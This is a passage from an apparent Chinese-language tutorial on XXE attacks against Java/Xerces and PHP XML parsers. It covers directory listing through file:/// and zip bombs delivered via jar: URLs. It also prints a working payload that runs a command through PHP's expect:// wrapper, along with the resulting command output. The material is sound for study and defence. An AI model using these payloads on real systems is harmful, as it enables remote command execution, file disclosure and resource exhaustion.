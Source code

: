 ### 特定环境下的攻击和限制

#### Java&Xerces

默认的Oracle's Java Runtime Environment下的XML parser是Xerces，一个apache的项目。而Xerces和Java提供了一系列的特性，这些特性又能导致一些严重的安全问题。上述的那些攻击手法（DOCTYPEs for SSRF,文件读取,参数实体的外带数据）在java的默认配置下能够运用自如,java/Xerces也支持XInclude 但是需要setXIncludeAware(true) 和setNamespaceAware(true)。

java规范能够支持如下的URL机制

```
http
https
ftp
file
jar

```

令人吃惊的是Java的file协议能够用来列目录，比如说，在linux下面“file:///”会列出/目录下所有东西：

```
bin
boot
dev
etc
home
...

```

jar协议`jar:http://host/application.jar!/file/within/the/zip`会导致服务器首先取得文件然后解压这个以jar开头！结尾的包 并提取后面的文件。从攻击者的角度看，完全能够定制一些高压缩比的包（比如1000：1）这些ZIP炸弹能用来攻击反病毒系统，或者用来消耗目标机的硬盘/内存资源。注意，jar URLs能在任何接受DOCTYPE定义的JAVA Xerces系统上使用。`所以，即使外部实体关闭了，还是能够进行攻击`。

#### php&expect的RCE

很遗憾，这个扩展并不是默认安装的，然而安装了这个扩展的XXE漏洞，是能够执行任意命令。

```
<!DOCTYPE root[<!ENTITY cmd SYSTEM "expect://id">]>
<dir>
<file>&cmd;</file>
</dir>

```

那么就会返回如下

```
<file>uid=501(Apple) gid=20(staff) groups=20(staff),501(access_bpf),12(everyone),61(localaccounts),79(_appserverusr),80(admin),81(_appserveradm),98(_lpadmin),401(com.apple.sharepoint.group.1),33(_appstore),100(_lpoperator),204(_developer),398(com.apple.access_screensharing),399(com.apple.access_ssh)<file>

```
